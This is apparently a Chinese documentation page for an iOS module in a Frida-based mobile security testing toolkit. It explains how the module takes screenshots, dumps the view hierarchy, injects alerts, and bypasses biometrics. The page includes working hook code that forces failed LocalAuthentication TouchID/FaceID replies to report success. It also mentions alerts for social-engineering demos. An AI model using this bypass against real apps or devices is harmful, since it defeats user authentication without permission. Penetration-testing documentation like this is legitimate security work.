

# 用户界面 <code>agent/src/ios/userinterface.ts</code>

`userinterface.ts` 在 iOS 目标进程里操作 UI：截图、dump UI 树、弹 Alert、绕过生物识别。截图走 `frida-screenshot`，UI 树走 `UIWindow.keyWindow().recursiveDescription()`，Alert 用 GCD 切主线程弹 `UIAlertController`，生物识别绕过 Hook `LAContext` 的 `evaluatePolicy:` 与 `evaluateAccessControl:` 把 reply block 的 success 改成 true。

## 📋 模块概览
| 项目 | 值 |
| --- | --- |
| 文件路径 | `agent/src/ios/userinterface.ts` |
| 平台 | iOS |
| 导出 RPC | `iosUiScreenshot`、`iosUiWindowDump`、`iosUiAlert`、`iosUiBiometricsBypass` |
| 依赖 | `ios/lib/libobjc.ts`、`frida-objc-bridge`、`frida-screenshot`、`lib/color.ts`、`lib/jobs.ts` |

## 🎯 解决的问题
- 对当前屏幕截图（PNG 字节），用于取证与 UI 自动化对照。
- dump 当前 keyWindow 的 `recursiveDescription`，还原视图层级，定位 UI 元素。
- 在 App 上弹自定义 Alert 消息，用于社会工程演示或确认注入成功。
- 绕过 LocalAuthentication 的 TouchID/FaceID，把生物识别失败的回调改成成功。

## 🏗️ 导出的 RPC 方法
| RPC 名 | 说明 |
| --- | --- |
| `iosUiScreenshot` | `frida-screenshot` 截图，返回 PNG 数据 |
| `iosUiWindowDump` | `keyWindow().recursiveDescription().toString()` |
| `iosUiAlert` | GCD 主线程弹 UIAlertController |
| `iosUiBiometricsBypass` | Hook `LAContext evaluatePolicy:` 与 `evaluateAccessControl:` |

### `rpc.iosUiScreenshot` — frida-screenshot
源码：[`agent/src/ios/userinterface.ts:9`](https://github.com/android-security-engineer/objection-skills/blob/master/agent/src/ios/userinterface.ts#L9)

直接委托 `frida-screenshot` 库，传 `null` 表示当前屏幕：
```ts
// agent/src/ios/userinterface.ts:9-13
export const take = (): any => {
  return screenshot(null);
};
```

### `rpc.iosUiWindowDump` — UI 树
源码：[`agent/src/ios/userinterface.ts:15`](https://github.com/android-security-engineer/objection-skills/blob/master/agent/src/ios/userinterface.ts#L15)

`UIWindow.keyWindow().recursiveDescription()` 返回描述整个视图层级的字符串：
```ts
// agent/src/ios/userinterface.ts:15-17
export const dump = (): string => {
  return ObjC.classes.UIWindow.keyWindow().recursiveDescription().toString();
};
```

### `rpc.iosUiAlert` — 主线程弹窗
源码：[`agent/src/ios/userinterface.ts:19`](https://github.com/android-security-engineer/objection-skills/blob/master/agent/src/ios/userinterface.ts#L19)

用 `ObjC.schedule(ObjC.mainQueue, ...)` 切到主线程，建 `UIAlertController`（style=1 警告样式）与 OK 按钮（`ObjC.Block` 作 handler），通过 `UIApplication.sharedApplication().keyWindow().rootViewController()` 弹出：
```ts
// agent/src/ios/userinterface.ts:31-44
ObjC.schedule(ObjC.mainQueue, () => {
  const alertController: ObjCTypes.Object = UIAlertController.alertControllerWithTitle_message_preferredStyle_(
    "Alert", message, 1);
  const okButton: ObjCTypes.Object = UIAlertAction.actionWithTitle_style_handler_("OK", 0, handler);
  alertController.addAction_(okButton);
  UIApplication.sharedApplication().keyWindow()
    .rootViewController().presentViewController_animated_completion_(alertController, true, NULL);
});
```

### `rpc.iosUiBiometricsBypass` — 改写 LAContext 回调
源码：[`agent/src/ios/userinterface.ts:48`](https://github.com/android-security-engineer/objection-skills/blob/master/agent/src/ios/userinterface.ts#L48)

建两个任务，分别 Hook `-[LAContext evaluatePolicy:localizedReason:reply:]` 与 `-[LAContext evaluateAccessControl:operation:localizedReason:reply:]`。`onEnter` 保存原始 reply block，替换成"OS 返回 false 时改成 true 再调原 block"：
```ts
// agent/src/ios/userinterface.ts:99-117
originalBlock.implementation = (success, error) => {
  send(`OS authentication response: ${c.red(success)}`);
  if (!success === true) {
    success = true;
    error = null;
  }
  savedReplyBlock(success, error);
  send(`Biometrics bypass hook complete (evaluatePolicy)`);
};
```



## ⚙️ 实现要点
- **GCD 切主线程**：UI 操作必须在主线程，`ObjC.schedule(ObjC.mainQueue, fn)` 把弹窗调度到主队列（`:31`）。
- **Block 替换而非 retval.replace**：生物识别绕过不直接改返回值（reply 是异步 block），而是替换 block 的 `implementation`，在回调里篡改 `success` 再调原始回调，兼容 App 的成功分支逻辑。
- **两个任务分离**：`evaluatePolicy` 与 `evaluateAccessControl` 是两条不同的 LocalAuthentication 路径，分别建 `ios-biometrics-disable-evaluatePolicy` 与 `ios-biometrics-disable-evaluateAccessControl` 任务，可独立 kill（`:80`、`:134`）。
- **整数枚举**：`preferredStyle: 1`（`UIAlertControllerStyleAlert`）、`style: 0`（`UIAlertActionStyleDefault`）用整数直接传，绕过 TS 无法引用 ObjC 枚举的限制（`:35`、`:38`）。

## 🔍 源码索引
| 符号 | 位置 |
| --- | --- |
| `take` | [`agent/src/ios/userinterface.ts:9`](https://github.com/android-security-engineer/objection-skills/blob/master/agent/src/ios/userinterface.ts#L9) |
| `dump` | [`agent/src/ios/userinterface.ts:15`](https://github.com/android-security-engineer/objection-skills/blob/master/agent/src/ios/userinterface.ts#L15) |
| `alert` | [`agent/src/ios/userinterface.ts:19`](https://github.com/android-security-engineer/objection-skills/blob/master/agent/src/ios/userinterface.ts#L19) |
| `biometricsBypass` | [`agent/src/ios/userinterface.ts:48`](https://github.com/android-security-engineer/objection-skills/blob/master/agent/src/ios/userinterface.ts#L48) |

## 🔗 相关文档
- [Frida 与 Agent](/guide/frida-agent)
- [RPC 通信机制](/guide/rpc)
- 任务管理：[`/reference/agent/lib/jobs`](/reference/agent/lib/jobs)
- 命令文档：[/reference/commands/ui](/reference/commands/ui)
